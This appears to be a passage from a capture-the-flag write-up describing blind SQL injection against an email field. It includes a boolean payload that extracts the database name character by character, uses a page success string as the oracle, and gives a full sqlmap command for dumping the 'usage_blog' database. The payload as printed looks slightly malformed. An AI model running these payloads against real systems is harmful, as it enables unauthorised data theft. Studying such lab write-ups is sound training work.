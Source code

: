 > Success payload 

```
123@123.com' and(asciiLOWER(substring((select database()),1,1)))=117)-- -
```

![](./IMG/31.png)


> with first char success, I also found the success attempt will show the following strings in div tag
> I also can use strings "success" as filter. it will more precise

```
alert alert-success
```

![](./IMG/32.png)

> but I also know that is too slow.
> Hence I tried to use sqlmap.
> I need to copy the request from burp 
> Note: the request should not include any malicious payload, it should look like a normal request 

> After multiple different command option  testing in sqlmap 
> I find the following command works
> the important things is I need to set risk/level to 4, and sqlmap will keep testing blind or error based more deep

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE --current-db usage_blog -a --level 4 --batch
```
